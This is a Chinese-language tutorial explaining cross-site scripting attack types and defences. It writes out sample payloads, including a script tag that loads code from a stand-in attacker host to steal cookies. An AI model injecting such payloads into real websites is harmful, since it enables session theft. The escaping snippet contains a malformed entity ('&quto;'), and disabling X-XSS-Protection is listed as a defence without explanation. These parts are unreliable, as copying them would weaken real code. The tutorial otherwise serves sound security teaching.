 ## XSS
Cross Site Scripting
跨站式脚本攻击，指的是通过存在安全漏洞的web网站注册用户的浏览器内运行非法的HTML标签或JavaScript的一种攻击。

先看个例子
用户输入：`baidu.com/book=<script>alert(1)</script>`
该网站代码
index.jsp
```html
<body>
  书籍:{book}
</body>
```
假设book后面的参数会被该网址以变量的形式拼接到html上。
用户访问这段url就能看到弹窗1
有人会觉得这有啥用啊，我一开始学习的时候也觉得没啥用，这其实是黑客用来简单测试这个网站能不能通过XSS攻击，后面再进行别的高深操作。
接下来黑客开始骚操作。
`baidu.com/book=<script src="heike.com"></script>`
黑客代码
```js
console.log(document.cookie)
```
通过在网站里面执行脚本，这个脚本通过src请求第三方服务，也就是黑客的服务，黑客就能通过服务去获取你的cookie值，因为同源下http会自动携带cookie。
一般来说黑客会给你这么一段链接，你访问这个链接就会中招。
这时候你可能又会有疑问，谁没事会执行这么一段代码，黑客可能就是会通过一些短网址，也就是通过一段短网址来代替真实的网址，通过一些邮件，或者美女图片链接来诱惑你点击。
### XSS类型
#### 反射型
##### 步骤
1. 攻击者构造出特殊的URL，其中包含恶意代码
2. 用户打开带有恶意代码的URL时，网站服务器将恶意代码从URL取出，拼接在HTML中返回给浏览器。
3. 用户浏览器接收到响应后解析执行，混在其中的恶意代码也被执行。
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作。
#### 存储型
这是最危险的跨站脚本，相比反射型和DOM型具有更高的隐蔽性，因为它不需要用户手动触发，任何允许用户存储数据的web程序都可能存在存储型XSS漏洞，当攻击者提供一段XSS代码后，被服务端接收并存储，当所有浏览者访问某个页面都会被XSS

##### 步骤
1. 攻击者将恶意代码提交到目标网站的数据库
2. 用户打开目标网站时，网站服务端将恶意代码从数据库取出，拼接在html上返回给浏览器。
3. 用户浏览器接收到相应后解析执行，混在其中的恶意代码也被执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户的行为，调用目标网站接口执行攻击者指定的操作
#### DOM型
DOM型和反射型不一样的地方在于，DOM型取出和执行由浏览器完成，属于前端的漏洞，而反射型会通过服务端接收并拼接html返回。
##### 步骤
1. 攻击者构造出特殊的URL，其中包含恶意代码
2. 用户打开带有恶意代码的URL
3. 用户浏览器接收到相应后解析执行，前端JavaScript取出URL中的恶意代码并执行
4. 恶意代码窃取用户数据并发送到攻击者的网站，或者冒充用户行为，调用目标接口执行攻击者指定的操作
#### 影响
- 利用虚拟输入表单骗取用户个人信息。
- 利用脚步窃取用户的Cookie值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片
#### 预防
- **httpOnly**
只能通过Http或者Https访问cookie，其他方式无法访问，例如js脚本
`response.addHeader("set-cookie","HttpOnly")`
- **输入过滤**
不管是前端、后端、sql，凡是输入的地方都得过滤，因为都有可能遭受XSS攻击。比如说一些校验库，validator。
- **转义HTML**
就是把html的一些标签进行转移，也叫黑名单
```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}
```
但是这样会导致一些问题，比如说`<h1>哈哈哈</h1>`，在富文本这种场景下就没办法按照原来的格式去展示<h1>哈哈哈</h1>，而只是展示字符串`<h1>哈哈哈</h1>`，所以有了白名单
- **白名单**
一般会有白名单的库，否则内容太多了。
```js
const xss = require('xss');
xss('<h1>哈哈哈</h1>')
```
[xss库中文文档](https://github.com/leizongmin/js-xss/blob/master/README.zh.md)
- 浏览器禁止xss过滤
`ctx.set('X-XSS-Protection',0)`
- CSP
Content Security Policy 内容安全策略
开发者明确告诉客户端，哪些外部资源是可以加载和执行，即使攻击者发现漏洞，也是没办法注入脚本的。
## 参考
- [前端面试查漏补缺--(七) XSS攻击与CSRF攻击](https://juejin.cn/post/6844903781704925191?searchId=2023101213230224E443DF12135B2EAE29)